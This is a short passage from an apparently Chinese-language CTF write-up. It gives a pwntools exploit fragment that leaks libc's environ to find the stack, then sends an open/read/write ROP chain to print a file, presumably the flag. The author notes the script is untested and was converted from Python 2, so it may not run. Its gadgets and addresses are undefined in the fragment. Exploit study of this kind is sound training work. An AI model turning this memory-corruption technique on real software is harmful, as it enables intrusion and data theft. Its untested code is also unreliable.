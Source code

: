 ```python
writee=leak+libc.sym['write']
environ=leak+libc.sym['environ']

write(1,environ,0x100)
stack=u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print(hex(stack))
r.recv()
read(0,stack-0x170,0x300)
pay=p64(rdi)+p64(0x123200)+p64(rsi)+p64(2)+p64(opens)
pay+=p64(rdi)+p64(3)+p64(rsi)+p64(0x123200)+p64(rdx)+p64(0x100)+p64(readd)
pay+=p64(rdi)+p64(1)+p64(rsi)+p64(0x123200)+p64(rdx)+p64(0x100)+p64(writee)
r.recv()
r.send(pay)

r.interactive()
```

我没有测试这个脚本，可能不能运行，因为出题人写这个wp时好像不是python3，比如pwntools generator next的使用我是改过的，python2和3不兼容。其他的没看,改了几个bytes，应该可以了。我的flag啊！